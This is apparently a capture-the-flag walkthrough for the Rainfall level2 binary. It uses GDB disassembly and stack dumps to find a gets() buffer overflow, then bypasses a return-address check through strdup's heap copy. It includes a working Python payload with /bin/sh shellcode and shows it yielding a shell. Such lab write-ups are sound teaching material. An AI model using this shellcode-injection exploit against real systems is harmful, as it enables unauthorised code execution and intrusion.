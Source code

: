 # Level2
Level2 is a follow up to buffer overflows vulnerabilities. 

# Tools
GDB

# Walkthrough
The home of level2 contains a binary, called level2. 
Using GDB, we can disassemble it and we get the assembly code:
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

We see that the program calls a function p, we can confirm it by asking gdb for information on the used functions in the binary:

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```
Let's disassemble p:
```
(gdb) disass p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

We are going to break at the main, before the call of `p` (address **0x08048545**) and before the `gets` call in `p` (address **0x080484ed**). 

We run the program until we hit our third breakpoint (before the `gets` call).
We dump the content of the stack before inputing in `gets`, we input 4 'A' (`0x41`), and 4 'B' (`0x42`), and redump the content of the memory to check where does our buffer begins.

```
Breakpoint 3, 0x080484ed in p ()
(gdb) x/20x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x00000001
0xbffff6a0:	0xbffff8bf	0x0000002f	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
(gdb) ni
AAAABBBB
0x080484f2 in p ()
(gdb) x/20x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x41414141
0xbffff6a0:	0x42424242	0x00000000	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
```
We can see that our 'A' and 'B' have been written starting at address **0xbffff69c**.
The return address for `main` is **0x0804854a**. 

If we dump a little more of the stack, we get:
```
(gdb) x/120x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x41414141
0xbffff6a0:	0x42424242	0x00000000	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0xbffff6f8	0x0804854a
...
```
Where we can see the return address (last piece of data).
So, the return address is stored at **0xbffff6ec**, and the buffer starts at **0xbffff69c**. The buffer obviously grows towards higher addresses, thus we need to write **0xbffff6ec** - **0xbffff69c** = **0x50** = 80 characters before overwriting the return address.

By passing the binary to Hex-Rays, we get an approximative code of `p`:
```c
char *p()
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 ) // 0xB0000000 = -1342177280 (signed) 
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

The `if` line is interesting. `(retaddr & 0xB0000000)` will only take the first 4 bytes of `retaddr`, and compare them to `-1342177280`, which is `0xB0000000`. 

For context, in older Linux distributions, that used to run on 32-bit, some memory spaces had known ranges. Typically, the User Space's range was from `0x00000000` from `0xBFFFFFFF` (3GB of the 4GB of the 32bit system), when the Kernel Space's range was from `0xC0000000` to `0xFFFFFFFF` (1GB of the 4GB). When some data from the User Space leaked on the Kernel Space, it was blocked and resulted into a segmentation fault.   

Thus, the `if` line is checking whether or not the return address is located in the User Space, which could mean that it has been tampered. It is a very primitive way of protecting against certain buffer overflows (modern sytems use the NX Flag (non-executable stack) and ASLR (Address Space Layour Randomisation)).

The user space stacks usually started at around `0xC0000000` (at the top of the space) and grew downwards. Thus, they are in the `0xB...` space and making a stack overflow would be interrupted by the `if` line, or it might take an enormous overflow and taking care of many considerations. 

A simpler solution is to make a Heap overflow, as the Heap tends to have lower memory addresses.
Moreover, we see in the code that `p` calls `strdup`, which calls `malloc`, a function used to allocate memory... on the heap!

By running the `level2` binary with `ltrace` multiple times, we see that it always points out to the same return address, `0x0804a008`, which is **NOT** in the `0xB...` range. Good!

```
level1@Rainfall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7b4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                            = 0
gets(0xbffff6bc, 0, 0, 0xb7e5ec73, 0x80482b5test
)                                 = 0xbffff6bc
puts("test"test
)                                                                  = 5
strdup("test")                                                                = 0x0804a008
+++ exited (status 8) +++
```

The idea now is to craft a payload that will give us a shell and overwrite the return address by the return address outside of the `0xB...` space, the one of `strdup`!

A shellcode database can be found [here](https://shell-storm.org/shellcode/index.html), we are going to use this [shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html) from kernel_panik. 

We now have a shellcode, a buffer length, and a return address, let's make our payload:
```py
len_buffer = 80
shell_code = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
return_address = b"\x08\xa0\x04\x08"

payload = (
    shell_code +
    b"A" * (len_buffer - len(shell_code)) +
    return_address
)

print(payload)
```
Give yourself all the permissions on the home of level2, `scp` the script onto the machine, redirect its output to a file exploit the binary:
```bash
cat attack.txt - | ./level2
1���Qh//shh/bin��
                  ̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
```
Grab the password, and level2 completed!
